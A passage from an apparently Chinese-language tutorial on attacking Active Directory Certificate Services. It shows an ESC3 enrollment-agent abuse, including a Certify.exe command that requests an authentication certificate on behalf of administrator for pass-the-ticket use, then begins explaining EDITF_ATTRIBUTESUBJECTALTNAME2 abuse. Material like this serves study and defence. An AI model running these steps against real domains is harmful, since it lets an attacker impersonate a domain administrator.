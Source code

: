 申请注册代理证书并连同私钥导出为 esc3\_1.pfx

![](assets/1711960542-627862ee4cdfcc1d4cc06b1806ebe845.png)

利用 Certify 通过 esc3\_1.pfx 代表 administrator 申请 esc3\_2.pfx 的身份认证证书，得到的证书同样可以进行 ptt 利用

```plain
Certify.exe request /ca:"CA01.corp.qihoo.cn\corp-CA01-CA" /template:ESC3_2 /onbehalfof:administrator /enrollcert:esc3_1.pfx /enrollcertpw:123456
```

![](assets/1711960542-adb0c25efe3bcc3b7bbd982a9726b8f2.png)

可看到证书颁发给了 administrator

![](assets/1711960542-9b29644563639d4097f727e180668f92.png)

#### *EDITF\_ATTRIBUTESUBJECTALTNAME2 滥用*

一些企业因业务需求会把颁发 CA + `EDITF_ATTRIBUTESUBJECTALTNAME2`  来启用 SAN (主题备用名)，从而允许用户在申请证书时说明自己身份。例如 [CBA for Azure AD](https://samilamppu.com/2017/01/21/cba-for-azure-ad/) 场景中证书通过 NDES 分发到移动设备，用户需要使用 RFC 名称或主体名称作为 SAN 扩展名来声明自己的身份。

